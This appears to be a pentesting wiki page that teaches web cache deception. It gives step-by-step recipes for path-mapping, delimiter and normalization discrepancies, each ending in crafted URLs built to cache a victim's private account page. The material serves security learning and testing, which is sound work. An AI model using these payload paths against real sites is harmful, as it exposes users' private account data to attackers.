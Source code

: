 ```yaml
---
title: "Web cache deception"
weight: 25
---
```


<details><summary>Introduction</summary>

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

</details>

More info about web cache: [Web cache](/web/web-security/web-cache/)

---

## Constructing a web cache deception attack

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting `GET`, `HEAD`, or `OPTIONS` methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

---

## Static extension cache rules

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### Path mapping discrepancies

<details><summary>Path mapping discrepancies (REST-style vs traditional URL)</summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Check if origin server uses REST-style
/my-account/abc    # The response is identical to the original -> REST-style

# 4. Check if cache server uses traditional URL & explotation
/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://site.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for simplicity
```

> **Note**:
> * This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
> * Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.


### Delimiter discrepancies

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

```python
# 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account         # "X-Cache: miss"
/my-account;abc.js  # "X-Cache: miss"
# So the cache thinks "/my-account" is different from "/my-account;abc.js"

# 5. Exploitation
/my-account;abc.js # 1 time "X-Cache: miss"
/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://site.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
```

> **Note**: 
> * Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
> *   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.
> 
>    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
> * Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`

---

## Static directory cache rules (with normalization discrepancies)

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

```python
# 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
```

### Normalization by the origin server

```python
# 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
# So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js"

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
# The origin server interprets the path as: /my-account
```

### Normalization by the cache server

```python
# 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account   # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
```
